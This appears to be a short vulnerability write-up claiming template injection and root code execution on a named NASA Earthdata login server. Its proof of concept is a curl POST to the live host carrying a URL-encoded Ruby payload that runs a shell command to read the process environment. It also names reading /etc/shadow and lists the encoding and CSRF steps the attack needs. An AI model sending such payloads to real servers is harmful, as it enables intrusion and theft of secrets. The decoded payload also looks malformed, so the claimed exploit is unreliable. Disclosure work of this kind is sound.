

# COSMICSTRIKE

The vulnerability consists of SSTI leading to root RCE on a NASA server, specifically urs.earthdata.nasa.gov

which allows:
- Arbitrary command/code execution
- Cloud file steal

The URS EARTHDATA server is part of the EODIS systems, which store data and research about the Earth

Vulnerable versions:
- V4.230.4 (the latest prod version)
- and ALL previous versions

PoC:
```

$ curl -X POST "https://urs.earthdata.nasa.gov/users/confirm" -d "authenticity_token=awxRGDUNCnArQ3Aj-BZCVSEogyEkt0-hUDlahaZuUV3ObdkCsMQUL8GfTaXFRnR6cam18lyjMa1UTnZX6qJm0w&user%5Bfirst_name%5D=%3C%25%3D%20%65%76%61%6C%28%45%6E%76%69%72%6F%6E%6D%65%6E%74%2E%6E%61%6D%65%64%5F%63%6F%6E%73%74%61%6E%74%3F%28%27%52%55%42%59%5F%45%4E%47%49%4E%45%27%29%2E%64%6F%77%6E%63%61%73%65%2E%74%6F%5F%73%20%3A%20%28%60%63%61%74%20%2F%70%72%6F%63%2F%73%65%6C%66%2F%65%6E%76%69%72%6F%6E%20%7C%20%68%65%61%64%20%2D%63%32%30%20%7C%20%62%61%73%65%36%34%20%2D%77%30%60%29%20%3A%20%6E%69%6C%20%25%3E&user%5Blast_name%5D=test" -s -o /dev/null -w "Time: %{time_total}s\n"
Time: 6.410270s
$ curl -s -o /dev/null -w "

URL: %{url_effective}
Connection time: %{time_connect} sec
DNS resolution time: %{time_namelookup} sec
Time to start of transfer: %{time_starttransfer} sec
Total time: %{time_total} sec
Response code: %{http_code}
Response size: %{size_download} bytes
" "https://urs.earthdata.nasa.gov"

URL: https://urs.earthdata.nasa.gov/
Connection time: 0.233123 sec
DNS resolution time: 0.004918 sec
Time to start of transfer: 1.160885 sec
Total time: 1.161167 sec
Response code: 200
Response size: 10309 bytes

```

Confirmations:
- The server cannot output the command result on the page, causing a 500 response
- Results with sleep differ in timing

What it leads to:
- time-based oracle for local files on server (including /etc/passwd and /etc/shadow)
- arbitrary Ruby code execution / shell command execution

Exploitation was only possible with double URL encoding and base64
In the sequence:
Base64->DoubleURLEncode
an active CSRF token from a live session is required
only POST requests

(P.s. The author does not encourage exploitation of the vulnerability; the vulnerability was closed in December 2025
THE VULNERABILITY WAS CLOSED WITHOUT PUBLIC DISCLOSURE, NO SYSTEM WAS AFFECTED, AND ALL NDA RULES OF THE BugBounty PLATFORM WERE OBSERVED)
